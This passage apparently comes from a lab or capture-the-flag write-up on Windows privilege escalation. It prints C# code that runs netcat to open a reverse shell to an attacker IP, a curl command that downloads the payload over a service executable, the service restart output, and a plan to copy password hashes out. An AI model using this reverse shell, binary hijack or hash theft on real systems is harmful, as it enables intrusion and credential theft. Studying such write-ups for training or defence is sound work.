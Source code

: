 ```C#
using System;
using System.Diagnostics;

namespace Wrapper{
    public class Program{
        public static void Main(){
            Process proc = new Process();
			ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc64.exe", "10.50.183.4 1338 -e cmd.exe");
			procInfo.CreateNoWindow = true;
			proc.StartInfo = procInfo;
			proc.Start();
        }
    }
}
```

compiling our code and upload it using curl, then execute it to get a revese shell with root access

```bash
mcs Wrapper.cs
```

```batch
C:\xampp\htdocs\resources\uploads>curl http://10.50.183.4/Wrapper.exe -o  "C:\Program Files (x86)\System Explorer\System.exe"
curl http://10.50.183.4/System.exe -o  "C:\Program Files (x86)\System Explorer\System.exe"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3584  100  3584    0     0   3584      0  0:00:01 --:--:--  0:00:01 25600

C:\xampp\htdocs\resources\uploads>dir "C:\Program Files (x86)\System Explorer\"
dir "C:\Program Files (x86)\System Explorer\"
 Volume in drive C has no label.
 Volume Serial Number is A041-2802

 Directory of C:\Program Files (x86)\System Explorer

04/10/2021  14:34    <DIR>          .
04/10/2021  14:34    <DIR>          ..
22/12/2020  00:55    <DIR>          System Explorer
04/10/2021  14:34             3,584 System.exe
               1 File(s)          3,584 bytes
               3 Dir(s)   6,987,202,560 bytes free

C:\xampp\htdocs\resources\uploads>sc stop SystemExplorerHelpService
sc stop SystemExplorerHelpService

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x1388

C:\xampp\htdocs\resources\uploads>sc start SystemExplorerHelpService
sc start SystemExplorerHelpService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```
We got a shot as admin and we will copy the password hashes to uploads directory and download it on attacking machine to extract the hashes
